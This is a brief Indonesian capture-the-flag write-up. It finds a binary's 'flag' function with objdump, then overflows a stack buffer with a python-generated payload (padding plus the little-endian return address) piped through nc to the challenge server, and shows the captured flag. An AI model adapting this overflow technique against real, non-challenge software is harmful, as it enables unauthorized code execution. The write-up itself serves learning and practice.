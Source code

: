 Kita cari address ```flag``` dengan ```objdump```

Command : ```objdump -D ./buffow | grep flag```

```
$ objdump -D ./buffow | grep flag
080491c2 <flag>:
```

Langsung saja kita buat payload ```sampah + address_flag + sampah```.

Payload : ```python -c 'print "A"*52 + "\xc2\x91\x04\x08" + "A"*200'```

Command : ```$ python -c 'print "A"*52 + "\xc2\x91\x04\x08" + "A"*200' | nc asgama.web.id 40211```

Result : 
```bash
$ python -c 'print "A"*52 + "\xc2\x91\x04\x08" + "A"*200' | nc asgama.web.id 40211
GamaCTF{Ini_Bukan_Flagnya}
```

Flag : ```GamaCTF{Ini_Bukan_Flagnya}```
